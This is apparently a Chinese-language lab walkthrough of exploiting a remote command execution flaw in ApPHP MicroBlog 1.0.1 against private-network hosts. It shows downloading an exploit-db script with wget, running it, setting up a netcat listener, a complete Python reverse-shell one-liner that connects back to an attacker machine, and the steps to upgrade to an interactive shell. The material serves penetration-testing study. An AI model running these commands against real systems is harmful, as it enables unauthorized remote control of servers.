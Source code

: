 * * *

### ApPHP MicroBlog v.1.0.1远程命令执行漏洞

```
https://www.exploit-db.com/
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

找到远程命令执行exp程序，是python写的脚本，下载下来执行看看如何使用

```
`wget https://www.exploit-db.com/download/33070 -O exp.py``python exp.py`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

提示直接加url即可，那我们来验证下

```
`python exp.py http://192.168.7.195``id`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

漏洞利用成功，现在反弹shell到kali攻击机上了

1.kali攻击机开启HTTP服务

```
nc -lvvp 4444
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

2.执行反弹payload，靶机上没有python3这里用python2

```
python2 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.7.3",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

反弹成功，我们切换成交互式shell

```
`python -c 'import pty;pty.spawn("/bin/bash")'``export TERM=xterm``Ctrl+z快捷键``stty -a``stty raw -echo;fg``reset`
```
